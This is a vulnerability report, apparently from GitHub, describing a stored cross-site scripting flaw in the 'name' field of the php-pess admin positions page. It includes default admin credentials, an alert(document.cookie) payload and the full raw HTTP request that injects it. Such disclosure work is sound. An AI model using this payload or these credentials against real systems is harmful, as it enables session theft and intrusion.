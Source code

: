 BUG_Author: Jean_Astruc

Vulnerability url: /php-pess/classes/Master.php?f=save_position

POST form-data parameter name exists stored cross-site scripting

### Steps to reproduce

1.Go to the admin Login

http://localhost/php-pess/admin/login.php

System Admin Access information:

Username: admin Password: admin123

2.Click on Position List and Click on + Create News

3.Put Payload into the 'Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/Jean-Astruc/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /php-pess/classes/Master.php?f=save_position HTTP/1.1
Host: localhost
Content-Length: 357
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-pess/admin/?page=positions
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=40s5h8f7t1k0c7i6bqttocu5pk
Connection: close

------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA--
```

5.Payload will trigger when a user visits on http://localhost/php-pess/admin/?page=positions

![image](https://github.com/Jean-Astruc/bug_report/blob/main/xss2.png)
